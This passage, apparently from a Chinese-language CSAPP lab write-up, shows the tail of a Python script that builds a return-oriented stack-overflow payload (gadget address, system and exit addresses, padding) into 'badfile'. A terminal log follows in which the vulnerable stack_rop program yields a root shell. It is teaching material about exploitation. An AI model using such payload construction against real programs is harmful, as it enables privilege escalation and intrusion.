 ```python{.line-numbers}
content  += tobytes(leaveret)
content  += tobytes(sh_addr)
content  += b'A' * (0x20 - 4*4)

content  += tobytes(0xFFFFFFFF)
content  += tobytes(exit_addr)

with open("badfile", "wb") as f:
    f.write(content)
```

运行上述 pyuthon 文件生成的 badfile 文件，然后运行 ./stack_rop 二进制程序，得到的结果如下：

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ python3 chain_attack.py 
monica@xvm:~/csapp/chapter3$ ./stack_rop
sprintf: 0xf7dd4580, system: 0xf7dc4cd0, exit: 0xf7db71f0, setuid: 0xf7e5ad30
the '/bin/sh' string's address: 0xffffd38c
foo: 0x565561ed
address of buffer[]: 0xffffc878
frame pointer value: 0xffffc8e8
# 
```